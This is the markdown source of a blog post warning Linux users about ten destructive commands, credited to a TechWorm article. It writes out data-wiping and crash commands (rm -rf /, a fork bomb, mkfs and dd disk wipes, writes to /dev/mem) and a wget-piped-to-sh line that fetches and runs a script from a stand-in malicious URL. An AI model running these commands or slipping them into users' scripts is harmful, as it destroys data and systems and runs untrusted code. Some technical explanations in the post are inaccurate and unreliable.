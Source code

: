 ```yaml
---
layout: post
title: 10 Most Dangerous Commands
subtitle: You Should Never Execute on Linux
bigimg: /img/mostcommands.gif
---
```


## 10 Most Dangerous Commands
You Should Never Execute on Linux

### 1. rm -rf Command
Commonly known as the recursive delete command, the rm -rf command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with rm command are.

```
1. rm command in Linux is used to delete files.
2. rm -r command deletes the folder recursively, even the empty folder.
3. rm -f command removes ‘Read only File’ without asking.
4. rm -rf / : Force deletion of everything in root directory.
5. rm -rf * : Force deletion of everything in current directory/working directory.
6. rm -rf . : Force deletion of current folder and sub folders.
```

Hence, be careful when you are executing rm -rf command. To overcome accidental delete of file by ‘rm‘ command, create an alias of ‘rm‘ command as ‘rm -i‘ in ".bashrc" file, it will ask you to confirm every deletion.’

Note, these days on most Linux systems if you tried doing this you’d get a warning. But the warning isn’t guaranteed, so just don’t do it.

## 2. :(){:|:&};: Command
   
This command is actually a fork bomb. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.
   
``` :(){:|:&};: ```

This fork bomb command defines a function named : that recursively calls itself twice when executed. One of the recursive calls happens in the foreground while the other happens in the background.
   
In other words, whenever this function executes, it spawns two child processes. Those child processes spawn their own child processes, and this cycle keeps going in an infinite loop. The only way out of it is to reboot the system.

## 3. Format Hard Drive
   
The terminal is especially tricky for Linux newbies because it provides several ways to accidentally wipe one’s hard drive. Recursive deletion is a big one, but here’s another:
   
> mkfs.ext3 /dev/hda

This command formats the hard drive to use the ext3 filesystem.The above command will format the block ‘sda’ and you would surely be knowing that after execution of the above command your Block (Hard Disk Drive) would be new, BRAND NEW! Without any data, leaving your system into unrecoverable stage.

## 4. Overwrite Hard Drive

Never use this command if your workstation contains life long work. At least disk formatting is an actual procedure with real-life uses; directly overwriting one’s drive, on the other hand, is not so great.

> 'command' > /dev/hda

In the command above, command can be replaced by any Bash command. The > operator redirects the output from the command on its left to the file on its right. In this case, it doesn’t matter what the output of the left command is. That raw data is being redirected and used to overwrite the system hard drive. This renders your Linux PC/laptop useless.

## 5. Wipe Hard Drive
   
   This command will completely wipe out your hard drive. No data corruptions or overwrites; it will literally fill your hard drive with zeroes. While this command can be necessiated if you have to start afresh but wiping your hard drive is a bad idea.
   
> dd if=/dev/zero of=/dev/hda

The dd command is a low-level instruction that’s mostly used to write data to physical drives. The ifparameter determines the source of data, which in this case is **/dev/zero**, a special on Linux that produces an infinite stream of zeroes. The of parameter determines the destination of those zeroes, which is the /dev/hda drive.

## 6. > file Command
   
The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> xt.conf” will write the configuration file or any other system or configuration file and lead to a complete breakdown of your PC/workstation.

## 7. Implode Hard Drive
   
For some special reasons, Linux has a special file called **/dev/null** that will discard whatever data is written to it. You can think of it as a black hole or a file shredder: anything given to it as input will be eaten up for good. You must have understood what I was alluding to. Running any command with **/dev/null** can shred that particular data file. However using the **/dev/null** with some other commands can be quite devastating for you.
   
> mv / /dev/null

The above mv command tries to move the system’s root directory **/** into the black hole of **/dev/null**. This is a valid command and the result is devastating: the hard drive gets eaten up and there’s nothing left. Doing this will make your system unusable.

## 8. ^foo^bar
   
   FUBAR stands for **fucked up beyond all recognition/any repair/all reason**. As the name suggests, this command if not used properly can fuck up your system. This command is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t take the risk of thoroughly checking the change in original command using **^foo^bar** command.
   
 ## 9. Cause Kernel Panic
    
While Windows has its infamous BSoD or Blue Screen of Death, Linux has a similar Blue Screen which is known as **Kernel Panic**. Sometimes, an internal error occurs from which recovery is impossible, so the system will enact something similar to the Blue Screen: a kernel panic. 

```
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```

If the above commands aren’t important here. What is important is that running any of those lines will result in a kernel panic, forcing you to reboot your system. It’s best to stay away from these commands unless you’re absolutely sure you know what you’re doing.

## 10. Execute Remote Script

Here’s an innocent command that can actually be useful in day-to-day life on a Linux system. **wget** retrieves the contents of a web URL, which can be used to access websites or download files. However, there’s a simple trick that turns it dangerous:

> wget http://an-untrusted-url -O- \| sh
 

**wget http://malicious_source -O- \| sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.

Font [TechWorm](http://www.techworm.net/2016/10/10-lethal-linux-commands-never-execute.html)
